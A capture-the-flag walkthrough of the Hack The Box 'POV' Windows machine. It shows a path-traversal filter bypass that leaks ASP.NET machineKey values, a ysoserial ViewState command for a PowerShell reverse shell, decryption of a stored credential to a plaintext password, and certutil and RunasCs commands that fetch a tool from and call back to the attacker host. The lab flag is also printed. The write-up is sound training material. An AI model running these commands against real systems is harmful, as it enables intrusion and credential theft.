# HTB - POV

**IP Address:** `10.129.61.84`  
**OS:** `Windows Server / Windows 10 (10.0.17763)`  
**Difficulty:** `Easy`  
**Tags:** #IIS #ASP.NET #LFI #ViewState #ysoserial #WinRM #SeDebugPrivilege

---
## Synopsis

POV is an easy Windows machine with only HTTP exposed. The main site leaks the `dev.pov.htb` vhost and the email `sfitz@pov.htb`. On the developer portfolio, a CV download endpoint is vulnerable to path traversal and discloses `web.config`, including ASP.NET `machineKey` material. Those keys enable a malicious ViewState (ysoserial) that returns a shell as `pov\sfitz`. A CLIXML credential blob decrypts to `alaading`, used for the user flag and an interactive shell. With `SeDebugPrivilege`, `psgetsys` / process impersonation against `winlogon.exe` yields SYSTEM once the attack is run over WinRM through a Chisel forward.

---
## Skills Required

- Web enumeration on IIS / ASP.NET
- Intercepting requests (Burp) and testing file download parameters
- Basic Windows post-exploitation and credential reuse

## Skills Learned

- Bypassing naive `../` filters for LFI on ASP.NET downloads
- Forging signed/encrypted ViewState with leaked `machineKey` values
- Decrypting PowerShell `Import-Clixml` credentials in-user context
- Abusing `SeDebugPrivilege` via parent-process impersonation over WinRM

---
## 1. Initial Enumeration

### 1.1 Connectivity Test

Check if the host is alive using ICMP:

```bash
ping -c 1 10.129.61.84
```



TTL `127` suggests a Windows target.

---
### 1.2 Port Scanning

Scan all TCP ports to identify open services:

```bash
nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 10.129.61.84 -oG allPorts
```

- `-p-` : Scan all 65,535 ports  
- `--open` : Show only open ports  
- `-sS` : SYN scan (stealthy and fast)  
- `--min-rate 5000` : Increase scan speed  
- `-Pn` : Skip host discovery  
- `-oG` : Output in grepable format  



Extract the open ports:

```bash
extractPorts allPorts
```



Only port `80` is open.

---
### 1.3 Targeted Scan

Run a deeper scan on the identified ports with version detection and default scripts:

```bash
nmap -sCV -p80 10.129.61.84 -oN targeted
cat targeted
```

- `-sC` : Run default NSE scripts  
- `-sV` : Detect service versions  
- `-oN` : Output in human-readable format  



**Findings:**

| Port(s) | Service | Notes |
|---|---|---|
| 80 | Microsoft IIS httpd 10.0 | Title `pov.htb`; ASP.NET; TRACE enabled |

Add hostnames for later vhost work:

```bash
echo "10.129.61.84 pov.htb dev.pov.htb" | sudo tee -a /etc/hosts
```

---
## 2. Service Enumeration

### 2.1 HTTP fingerprint and main site

Fingerprint the stack and confirm the hostname advertised by the application:

```bash
whatweb http://10.129.61.84/
```



`whatweb` reports IIS 10.0, ASP.NET, title `pov.htb`, and email `sfitz@pov.htb`. Browsing `http://pov.htb` shows the marketing site:



### 2.2 Contact page → `dev.pov.htb`

The contact section points to a developer profile on another hostname:



```text
... check my profile at dev.pov.htb ...
Email: sfitz@pov.htb
```

### 2.3 Developer portfolio and CV download

Open the portfolio vhost and review downloadable content:

```text
http://dev.pov.htb/portfolio/
```



The site offers Stephen Fitz’s CV (`cv.pdf`) and a contact section:




---
## 3. Foothold

### 3.1 Path traversal to `web.config`

Intercept the CV download POST. The body includes ASP.NET ViewState fields and `file=cv.pdf`:



The application strips simple `../` sequences. Doubling the traversal (`....//`) reaches the application root and downloads `web.config`, leaking `machineKey` material:

```http
file=....//web.config
```



Recovered keys (from `web.config`):

- `decryption="AES"`  
  `decryptionKey="74477CEBDD09D66A4D4A8C8B5082A4CF9A15BE54A94F6F80D5E822F347183B43"`
- `validation="SHA1"`  
  `validationKey="5620D3D029F914F4CDF25869D24EC2DA517435B200CCF1ACFA1EDE22213BECEB55BA3CF576813C3301FCB07018E605E7B7872EEACE791AAD71A267BC16633468"`

### 3.2 ViewState RCE via ysoserial

Generate a ViewState payload that runs a PowerShell reverse shell. ysoserial under Wine was unreliable here, so it was run on a Windows host:

```cmd
ysoserial.exe -p ViewState -g TextFormattingRunProperties --path="/portfolio" --apppath="/" --decryptionalg="AES" --decryptionkey="74477CEBDD09D66A4D4A8C8B5082A4CF9A15BE54A94F6F80D5E822F347183B43" --validationalg="SHA1" --validationkey="5620D3D029F914F4CDF25869D24EC2DA517435B200CCF1ACFA1EDE22213BECEB55BA3CF576813C3301FCB07018E605E7B7872EEACE791AAD71A267BC16633468" -c "powershell -e <BASE64>"
```



Build the reverse shell one-liner (revshells.com — PowerShell #3 Base64) for `10.10.15.14:443`:



Replace `__VIEWSTATE` in Burp, listen, and catch the callback:

```bash
nc -lvnp 443
```



Shell as `pov\sfitz` (cwd under `C:\windows\system32\inetsrv`).

### 3.3 Credential reuse → user flag (`alaading`)

`sfitz` has no desktop flag. Documents contain `connection.xml`, a serialized credential for `alaading`:



Decrypt it in the same user context:

```powershell
$Credential = Import-Clixml -Path .\connection.xml
$Credential.GetNetworkCredential().password
```



Recovered: `alaading` / `f8gQ8fynP44ek1m3`.

Only port 80 is exposed externally, so use PowerShell remoting from the foothold to read the user flag:

```powershell
$securePassword = ConvertTo-SecureString "f8gQ8fynP44ek1m3" -AsPlainText -Force
$alaadingShell = New-Object System.Management.Automation.PSCredential("pov\alaading", $securePassword)
Invoke-Command -ComputerName pov -Credential $alaadingShell -ScriptBlock { type C:\Users\alaading\Desktop\user.txt }
```



🏁 **User flag obtained**: `6beee6b502fa8f4d3bd2d9ffa3037d4d`

### 3.4 Interactive shell as `alaading` (RunasCs)

Upload `RunasCs.exe` and spawn a reverse PowerShell as `alaading`:

```powershell
certutil.exe -f -urlcache -split http://10.10.15.14/RunasCs.exe
.\RunasCs.exe alaading f8gQ8fynP44ek1m3 powershell.exe -r 10.10.15.14:443
```

